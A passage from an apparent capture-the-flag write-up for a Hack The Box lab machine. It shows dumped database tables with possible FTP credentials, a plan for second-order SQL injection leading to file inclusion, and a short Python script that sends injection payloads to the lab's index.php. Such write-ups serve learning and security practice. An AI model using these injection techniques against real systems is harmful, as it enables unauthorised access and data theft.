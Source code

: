 ```
| 465 | about       | 0        |
| 587 | contact     | 0        |
+-----+-------------+----------+
[...]
Table: filepath
+---------+--------------------------------------+
| name    | path                                 |
+---------+--------------------------------------+
| about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
| contact | 0f710bba8d16303a415266af8bb52fcb.php |
| main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
+---------+--------------------------------------+
[...]

```

Here are my observations for each of the table:

- `config`: There's a lot of data here, including some potential credentials in `ftp_pass`. There's also a `checkrelease` option that points to a perl script in `/home/guly/`.
- `idname`: That table contains the mapping between the ID specified in the GET request and a name
- `filepath`: The name from the previous table seems to be referenced here in this table

### Second order SQL injection

I have the database table with some possible credentials but there's nothing else open on this box except HTTP and HTTPS and I haven't found any other hidden directory and/or vhost. There's possibly a service listening on an IPv6 address but I don't know the address and I can't scan the entire /64 because that address space is too large to scan.

The md5 hash of the last two entries in the filepath table are the md5sum of the strings `submission` and `smtp`. Thinking that this was a hint, I hashed a couple of wordlists and ran those through wfuzz but was unsuccesfull in finding any other files.

I don't have the PHP source code but I can guess that there are two SQL queries being issued from index.php: one to map the ID to the name, and another other to map the name to the filename. If we can perform an injection on the first query, we can probably do the same on the second one and control which file gets included by the PHP code, basically getting an LFI.

I don't like testing SQL injections within Burp so I made a script to help me with the process:

```python
import readline
import requests

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    cmd = raw_input("> ")
    payload = cmd
    payload = payload + "-- -"
    print payload
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    print soup.body
```
